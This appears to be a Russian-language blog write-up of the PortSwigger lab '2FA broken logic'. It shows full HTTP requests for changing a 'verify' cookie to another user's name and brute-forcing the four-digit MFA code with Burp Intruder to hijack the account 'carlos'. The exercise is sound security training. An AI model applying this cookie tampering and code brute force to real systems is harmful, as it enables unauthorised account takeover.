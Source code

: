 ```yaml
---
title: "2FA broken logic"
date: 2025-09-11
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-multi-factor-authentication/authentication/multi-factor/lab-2fa-broken-logic"
classes: wide
---
```

{% raw %}
В данной лабе нарушена логика двухфакторной аутентификации. Для прохождения нужно получить доступ к аккаунту `carlos`. Даны креды от нашего пользователя `wiener`:`peter`.

```
https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
```

## Solution

Сразу пойду на страницу логина, чтобы собрать все запросы:

Получаею страницу для входа:

```http
GET /login HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=LQDyifn6acpYrKiyvaAXblZiWDQObt25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ввожу данные:

```http
POST /login HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=LQDyifn6acpYrKiyvaAXblZiWDQObt25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener&password=peter
```

Редирект на форму ввода кода:

```http
GET /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=wiener
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Отправка кода:

```http
POST /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=wiener
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login2
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

mfa-code=0115
```

Переход на страницу аккаунта:

```http
GET /my-account HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=LQDyifn6acpYrKiyvaAXblZiWDQObt25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

После ввода логина и пароля сайт установил мне `Cookie` значение `verify=winer`. Попробую отправить запрос `GET /login2`, изменив значение `verify` на `carlos`.

```http
GET /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=carlos
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Получил форму ввода кода:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/1.png){: height="200" .align-center}

Попробую подобрать нужный пароль через `Intruder` простым брутфорсом:

```http
POST /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=carlos
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login2
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

mfa-code=§code§
```

Настройки пейлоада:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/2.png){: height="200" .align-center}

Провел атаку и отсортировал по коду ответа. При правильном коде я должен получить ответ `302`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/3.png){: height="200" .align-center}

Вытащу значение `session` из `Cookie` ответа и вставлю в браузере для входа:

```http
HTTP/2 302 Found
Location: /my-account?id=carlos
Set-Cookie: session=RaBbH8fs2OGpCmO1fscpJQXrw5iivK5R; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/4.png){: height="200" .align-center}

Обновил страницу. И вот я залогинился)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/5.png){: height="200" .align-center}
{% endraw %}
